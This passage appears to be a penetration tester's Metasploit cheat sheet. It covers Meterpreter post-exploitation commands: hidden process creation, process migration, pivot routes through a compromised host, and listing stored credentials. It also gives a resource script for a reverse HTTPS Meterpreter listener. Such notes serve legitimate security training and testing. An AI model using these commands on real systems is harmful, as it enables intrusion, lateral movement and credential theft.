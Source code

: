 Create a new process by specifying a command or program
```
execute -H -f notepad
```
- `-H` 
	- Create the process hidden from view
- `-f` 
	- Specify the command or program to run. E.g., `notepad`

Migrate our current process
```meterpreter
migrate 3692
```

Add a network route to session 1 reachable through the compromised host
```msfconsole
route add 172.20.69.0/24 1
```

Remove all routes
```msfconsole
route flush
```

Get a list of all discovered hosts up to this point
```msfconsole
hosts
```

Display the discovered services discovered services up to this point
```msfconsole
services
```

Filter discovered services discovered services up to this point
```msfconsole
services -p 8000
```

Displaying vulnerabilities identified by Metasploit up to this point
```msfconsole
vulns
```

Displaying all saved credentials of the database up to this point
```msfconsole
creds
```

Displaying all routes of the database up to this point
```
route print
```

## Resource Scripts
> Automate Metasploit by chaining together a series of Metasploit console commands and Ruby code

Create a resource script that starts a multi/handler listener for a non-staged Windows 64-bit Meterpreter payload 
`listener.rc`
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.100.69
set LPORT 443
set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
run -z -j
```
- Activate the multi/handler module
- Set the payload (`windows/meterpreter_reverse_https`) 
- Set the _LHOST_ and _LPORT_ options to fit our needs.